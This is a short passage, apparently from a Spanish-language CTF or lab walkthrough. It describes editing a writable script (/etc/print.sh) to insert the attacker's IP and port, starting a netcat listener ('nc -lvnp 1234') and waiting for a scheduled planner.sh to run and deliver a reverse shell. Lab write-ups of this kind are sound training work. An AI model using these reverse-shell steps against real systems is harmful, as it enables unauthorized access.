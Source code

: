 ![](IMG/Pasted%20image%2020250413231150.png)

Evidentemente lo modificaremos con nuestra Ip y puerto.

```
nano /etc/print.sh
```

![](IMG/Pasted%20image%2020250413231505.png)

Ahora, como hacemos siempre iniciaremos un listener con netcat.

```
nc -lvnp 1234
```

y esperaremos a que se ejecute planner.sh para que nos de la shell reversa.
